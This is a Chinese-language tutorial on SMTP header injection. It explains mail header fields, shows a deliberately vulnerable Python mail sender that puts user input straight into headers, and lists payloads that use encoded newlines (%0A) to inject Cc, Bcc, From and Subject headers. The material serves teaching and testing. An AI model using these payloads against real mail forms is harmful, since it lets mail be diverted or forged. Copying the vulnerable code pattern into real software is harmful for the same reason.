



## 漏洞介绍

SMTP是用于发送和传递电子邮件的协议，定义了邮件的传输方式和交流规则

SMTP注入是指可通过添加/控制**邮件头**的方式，篡改邮件的发送者、抄送、密送等字段，从而达到**欺骗、窃取邮件信息或劫持邮件传递**的目的。

## 邮件头介绍

常见邮件头代表的含义如下：

| 邮件头字段          | 含义                         |
| ------------------- | ---------------------------- |
| From                | 邮件的发送者                 |
| To                  | 邮件的接收者                 |
| Cc                  | 邮件的抄送者                 |
| Bcc                 | 邮件的密送接收者             |
| Subject             | 邮件的主题或标题             |
| Body                | 邮件正文内容                 |
| Date                | 邮件的发送时间               |
| Reply-To            | 回复邮件时使用的地址         |
| Importance          | 邮件的重要性级别             |
| MIME-Version        | 邮件的MIME版本               |
| Content-Type        | 邮件正文内容的类型及编码方式 |
| Content-Disposition | 邮件附件的处理方式           |
| Message-ID          | 邮件的唯一标识符             |
| In-Reply-To         | 针对哪封邮件进行回复的标识符 |
| References          | 相关邮件的标识符列表         |
| Return-Path         | 邮件的退回地址               |
| X-Priority          | 邮件的优先级                 |

为了尽可能的获取实用的邮件头，使用抄送+密送的方式发一封邮件，查看原文，就可以看到发送的实际内容



## 漏洞复现

假设存在一个注册功能点，我们输入邮箱后，网站给我们发送激活链接进行注册

其中，发送邮件使用的代码为：	

```python
import base64
import smtplib
from urllib.parse import unquote
from email.header import Header
from email.message import Message

def send_email(from_addr, to_addr, subject, mail_text, smtp_host, smtp_port, smtp_username, smtp_password):
    email_string = f"""MIME-Version: 1.0
Content-Type: text/plain; charset="utf-8"
Content-Transfer-Encoding: base64
From: {from_addr}
To: {to_addr}
Subject: =?utf-8?b?{base64.b64encode(subject.encode()).decode()}?=

{base64.b64encode(mail_text.encode()).decode()}
    """
    print(f"\n{email_string}\n")
    try:
        smtp_obj = smtplib.SMTP_SSL(smtp_host, smtp_port)
        smtp_obj.login(smtp_username, smtp_password)
        smtp_obj.sendmail(from_addr, to_addr.split(','), email_string)
        smtp_obj.quit()
        print('邮件发送成功')
    except smtplib.SMTPException as e:
        print('邮件发送失败:', str(e))

if __name__ == '__main__':
    # to_addr = 'ntoouuzovrlfy@baybabes.com'
    to_addr = input("收件箱地址: ")
    to_addr = unquote(to_addr)
    # 使用示例
    from_addr = 'xxx@163.com'
    subject = '注册邀请'
    mail_text = '您的注册地址为:xxxxx'
    smtp_host = 'smtp.163.com'
    smtp_port = 465
    smtp_username = 'username'
    smtp_password = 'password'

    send_email(from_addr, to_addr, subject, mail_text, smtp_host, smtp_port, smtp_username, smtp_password)
```

正常发送邮件



由于`to_addr `可控，针对当前例子，将其输入为`xxx@baybabes.com%0aCc:, rocaced977@soremap.com`并发送，其中`%0a`为换行符的



可见成功注入了SMTP邮件头Cc（抄送），此时注入的恶意邮箱`xxx@xxx.com`也将收到和`xxx@baybabes.com`一样的邮件。

## 漏洞常见点

所有和发送邮件有关的功能点都可以进行尝试，如邮箱注册、邮箱找回密码等...

**常见payload:**

> 就是通过各种方式注入SMTP header头中。

```
rec@domain.com%0ACc:recipient@domain.com%0ABcc:recipient1@domain.com
admin@domain.com%0AFrom:eval@domain.com
From:sender@domain.com%0ATo:attacker@domain.com
From:sender@domain.com%0ASubject:This’s%20Fake%20Subject
```

